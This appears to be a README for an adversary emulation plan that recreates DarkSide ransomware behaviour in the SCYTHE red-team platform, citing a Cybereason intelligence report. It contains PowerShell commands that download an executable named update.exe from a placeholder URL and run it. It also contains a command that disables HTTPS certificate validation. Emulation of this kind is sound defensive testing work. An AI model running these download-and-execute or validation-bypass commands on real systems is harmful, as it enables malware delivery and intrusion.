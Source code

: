 # DarkSide Ransomware Adversary Emulation Plan

This threat is based on CyberReason's Cyber Threat Intelligence: https://www.cybereason.com/blog/cybereason-vs-darkside-ransomware

To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance - https://raw.githubusercontent.com/scythe-io/community-threats/master/DarkSide/DarkSide_scythe_threat.json
2. Download the Virtual File System (VFS) files under DarkSide/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/DarkSide
4. Ensure HTTP Relay is running on your SCYTHE server.
5. Create a new campaign, selecting HTTP, and ensuring the communication options match your HTTP Relay.
6. Import from Existing Threat: DarkSide
7. Launch Campaign
8. Click More Actions and copy the URL for the desired EXE. 
9. In the target system, run this PowerShell command with the respective URL: powershell -Command "(New-Object Net.WebClient).DownloadFile('<SCYTHE EXE URL>','C:\Users\Public\update.exe')"
10. Execute update.exe

Note, to get around HTTPS certificate validation issues:

Open a PowerShell command prompt

PS C:\Users\LocalUser> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

PS C:\Users\LocalUser> (New-Object Net.WebClient).DownloadFile('<SCYTHE EXE URL>','C:\Users\Public\update.exe')

PS C:\Users\LocalUser> C:\Users\Public\update.exe